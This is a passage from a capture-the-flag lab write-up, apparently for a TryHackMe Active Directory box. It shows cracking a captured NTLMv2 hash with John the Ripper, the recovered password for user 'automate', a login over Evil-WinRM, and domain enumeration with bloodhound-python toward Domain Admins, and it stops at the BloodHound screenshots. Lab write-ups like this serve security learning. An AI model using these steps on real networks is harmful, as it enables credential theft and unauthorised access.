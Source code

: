 


![](https://i.imgur.com/V18EHaO.png)



- As seen above we captured the NTLMv2 hash for user `automate`, we can then go ahead and crack this hash using [JTR](#)


```bash
john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



![](https://i.imgur.com/MWpfMSw.png)


```
automate:Passw0rd1
```


- We can't login via `psexec.py` for some reasons



![](https://i.imgur.com/4vodUXn.png)



- We can then login with `Evil-WinRM`  and get user.txt


```
evil-winrm -i 10.10.94.182 -u automate -p <PASSWORD>
```



![](https://i.imgur.com/6lKU0ji.png)


- Since my `Evil-WinRM` shell is kinda slow and unstable, also deletes my `SharpHound.exe` and no time to find whitelisted folders by AV :P, I decided to use `bloodhound-python`



```bash
bloodhound-python -ns 10.10.94.182 --dns-tcp -d THM.CORP -u <username> -p <password> -d domain.local -c all --zip
```


![](https://i.imgur.com/V40zMiM.png)


- Uploading our data to bloodhound and looking for path to `DOMAIN ADMINS@THM.CORP` 


![](https://i.imgur.com/rAkkCGk.png)



![](https://i.imgur.com/5zl9FWK.png)
